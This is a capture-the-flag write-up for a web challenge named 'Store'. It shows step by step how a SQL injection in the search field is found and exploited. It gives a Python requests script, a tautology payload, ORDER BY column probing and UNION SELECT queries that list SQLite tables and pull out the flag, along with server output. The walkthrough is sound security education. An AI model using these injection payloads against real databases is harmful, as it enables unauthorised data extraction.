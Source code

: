 # Store

## Description
```
https://store.web.actf.co/
```

## Writeup

Starting off, I inspected the website and the input field. <br/>
Testing simple injections I was able to cause a simple `SQLi` using `' or 1=1; -- `. <br/>
To be more efficient I automated this process using python. <br/>
```py
import requests

base_URL = 'https://store.web.actf.co/'

payload = {
    'item': "' or 1=1; -- "
}

res = requests.post(f'{base_URL}search', data=payload)

print(res.text)
```

The reason I knew it worked was that the response from the sever included all 3 possible products instead of a single one. <br/>
Having found the correct vulnerability I tried to enumerate the system. <br/>
Using injections to guess the amount of columns being used: <br/>
```js
/* Worked */
' ORDER BY 1; -- 
' ORDER BY 2; -- 
' ORDER BY 3; -- 

/* Didn't work */
' ORDER BY 4; -- 
```

To verify this I used a `UNION` query injection with 3 columns. <br/>
```sql
' UNION SELECT '1', '1', '1'; -- 
```

This query worked so I tried to enumerate the `sql tables` using the query below.
```py
payload = {
    'item': "' UNION SELECT '1', name, '1' FROM sqlite_master WHERE type='table'; -- "
}
```
This returned the following result:
```html
<table>
    <tr>
        <th>Name</th>
        <th>Details</th>
    </tr>
    
        <tr>
            <td>flags2cdc14366379a92e44d8f438ff39afe6</td>
            <td>1</td>
        </tr>
    
        <tr>
            <td>items</td>
            <td>1</td>
        </tr>
    
        <tr>
            <td>sqlite_sequence</td>
            <td>1</td>
        </tr>
    
</table>
```

Knowing the table I did another `UNION SQL Injection` to obtain the flag.
```py
payload = {
    'item': "' UNION SELECT '1', flag, '1' FROM flags2cdc14366379a92e44d8f438ff39afe6; -- "
}
```
This returned the flag which concludes this writeup.
```html
<table>
    <tr>
        <th>Name</th>
        <th>Details</th>
    </tr>
                
    <tr>
        <td>actf{37619bbd0b81c257b70013fa1572f4ed}</td>
        <td>1</td>
    </tr>           
</table>
```